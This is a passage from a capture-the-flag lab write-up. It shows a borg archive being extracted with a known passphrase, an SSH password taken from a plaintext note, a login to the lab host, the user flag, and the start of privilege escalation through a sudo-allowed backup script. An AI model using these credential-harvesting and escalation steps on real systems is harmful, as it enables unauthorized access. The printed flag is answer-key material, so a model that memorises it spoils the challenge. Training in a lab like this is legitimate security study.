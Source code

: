 **Extracted with password `squidward`:**

```bash
borg extract --list home/field/dev/final_archive::music_archive
# Enter passphrase: squidward
```

**Relevant Files Extracted:**

```
home/alex/Documents/note.txt
```

**`note.txt` Content:**
```
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:S3cretP@s3
```

**SSH Credentials Found:**
```
Username: alex
Password: S3cretP@s3
```

---

## 🔑 Step 4: SSH Access

```bash
ssh alex@10.201.113.2
# Password: S3cretP@s3
```

**Successful login → user shell**

```bash
cat user.txt
flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}
```

**User Flag:** `flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}`

---

## 🛠️ Step 5: Privilege Escalation — Sudoable Backup Script

```bash
sudo -l
```

**Output:**
```
User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```

**Script Location & Permissions:**
```bash
ls -la /etc/mp3backups/backup.sh
-r-xr-xr-- 1 alex alex 1083 Dec 30 2020 /etc/mp3backups/backup.sh
```
